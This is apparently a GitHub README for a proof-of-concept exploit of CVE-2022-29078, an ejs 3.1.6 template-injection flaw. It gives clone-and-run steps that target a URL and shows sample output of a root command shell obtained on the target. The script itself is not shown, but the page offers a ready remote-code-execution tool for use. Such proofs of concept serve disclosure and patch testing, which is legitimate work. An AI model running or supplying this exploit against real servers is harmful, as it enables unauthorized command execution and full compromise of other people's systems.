 
Simple PoC for CVE-2022-29078 (vuln ejs 3.1.6)

## Usage
```
git clone https://github.com/chuckdu21/CVE-2022-29078.git
cd CVE-2022-29078
python3 CVE-2022-29078.py <URL>
```
A prompt will appear to execute commands

```
$ id
uid=0(root) gid=0(root) groupes=0(root)
```

https://eslam.io/posts/ejs-server-side-template-injection-rce/